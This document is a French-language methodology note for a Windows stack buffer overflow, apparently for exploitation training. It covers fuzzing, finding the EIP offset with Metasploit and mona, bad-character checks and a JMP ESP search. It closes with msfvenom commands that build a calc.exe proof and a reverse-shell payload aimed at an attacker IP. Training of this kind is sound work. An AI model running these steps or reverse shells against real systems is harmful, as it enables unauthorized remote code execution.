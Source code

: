```ad-note tips
Dans Immuniyy Debugger, on peut retourner à l'affichage principale en cliquant sur l'onglet **Window --> CPU**
Il faut lancer les scripts avec PYTHON3
```


## Mona Configuration
##### Installation de mona
https://github.com/corelan/mona
Mettre mona.py dans le répertoire:
`C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`

### Mona Configuration
Configuration du working folder :
```
!mona config -set workingfolder c:\mona\%p
```

## Lister les commandes

On se connecte à l'application avec `nc -nv IP Port` puis on essaie de voir qu'elle sont les commandes de l'application qui nous permettent d'envoyer des données.

## 1 - Fuzzing

La première étape est de déterminer la commande vulnérable en faisant crash l'application.
Dans le script **PARAMETER.py** on modifie l'**IP** et le **Port**, et dans le script **1_segfault.py** on modifie le **Prefix**.
On attache et lance l'application dans Immunity puis on exécute le script.
On note l'offset trouvé dans la variable **offset_eip** de **PARAMETER.py**.

## 2 - Offset

On génère un paterne avec metasploit :
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

buf += ("<PATTERN>")
```

Mettre l'output dans la variable **buf** de **2_find_offset.py** et exécuter le script.

Lorsque l'application crash :
- on note la valeur de EIP en faisant **clic droit sur la valeur de l'EIP --> copy selection to Clipboard**
- on note la valeur de ESP en faisant **clic droit sur ESP --> Follow in stack --> Clic droit sur la ligne surligner en bleu  dans fenêtre en bas à droite (qui correspond au registre ESP) --> Copy to clipboard**.

Puis on récupère l'offset de l'EIP et de l'ESP avec la commande : 

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value>
```

On peut aussi trouver l'offset EIP et ESP avec la commande : `!mona findmsp`

On note la valeur de l'offset retournée par cette commande dans la variable **offset_eip** et **offset_esp de **PARAMETER.py**.

## 3 - Control the EIP

Cette étape consiste à vérifier si l'offset trouvé est le bon, en écrivant une suite de caractères B dans l'EIP.

On exécute le script.
On modifie aussi la variable **buf_totlen** dans **PARAMETER.py** pour que la taille corresponde à l'offset qui à fait crash l'application plus 50 pour laisser de la marge au shellcode.

Dans Immunity si l'EIP contient une suite de caractères B, et que l'ESP pointe vers un emplacement qui contient CCCCDDDDDD... alors les offsets trouvés sont les bons.

## 4 - Bad Chars

On créer dans mona une liste de caractères en excluant directement x00 qui est bad chars par défaut (Il correspond au caractère ASCII fin de string)

```
!mona bytearray -cpb "\x00"
```

On exécute le script **4_find_badchars.py**.
On trouve les badchars en comparant ESP avec le fichier généré par mona :

```
!mona compare -a ESP -f <path_to__bytearray.bin>
```

On ajoute les badchars trouvé par mona dans la variable **bad_chars** de **PARAMETER.py**.

On régénère à nouveau avec mona un **bytearray** en ajoutant le bad chars trouvé :
```
Exemple :
!mona bytearray -cpb "\x00\x0a"
```

Puis on reproduit cette action jusqu'à se qu'il n'y ai plus de bad characters.

## 5 - Confirm badchars & find a JMP ESP instruction

### a. Confirm badchars

S'assurer que les badchars identifié sont dans le fichier **PARAMETER.py**.
Regénérer une sequence badchars avec mona en intégrant tous les badchars trouvé :
```
!mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"
```

Comparer le fichier `bytearray.bin` avec le buffer pour être sure qu'ils sont pareil.
```
!mona compare -a ESP -f <file_with_bad_chars>
!mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>
```

Si il n'y a plus de badchars, mona doit afficher un statuts **unmodified** et on doit avoir un message dans la console qui dit :  **!!! Hoooray, normal shellcode unmodified !!!**

### b. Find a JMP ESP

On demande à mona de trouver une instruction **JMP ESP** qui permet au processeur d'exécuter ce que nous avons mis dans le stack.

```
!mona jmp -r esp -cpb "<bad_chars>"       formatted like this : "\x00\x01"
```

Placer l'adresse retournée dans la variable **ptr_jmp_esp** dans **PARAMETER.py**.

## 6 - Pop calc

Ce script permet de confirmer l'execution de code sur la victime. Cela peut être utilisé pour validé le contenu de l'exploit.

On génère un shellcode avec msfvenom qui permet de pop un calculatrice :
```
msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

Insérer l'output (variable python `shellcode_calc`) dans le script **6_pop_calc.py**.

On exécute le script, une calculatrice devrait pop sur la machine victime.

## 7 - Reverse Shell

Maintenant, on peut craft n'importe quel shellcode du moment qu'on respecte les bad chars.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> -f py -b '<badchars>' -e x86/shikata_ga_nai --var-name shellcode
Attention : Si le decodeur ne fonctionne pas, on peut enlever "-e x86/shikata_ga_nai" de la commande.
```


Insérer l'output (python variable `shellcode`) dans le script **7_exploit.py**
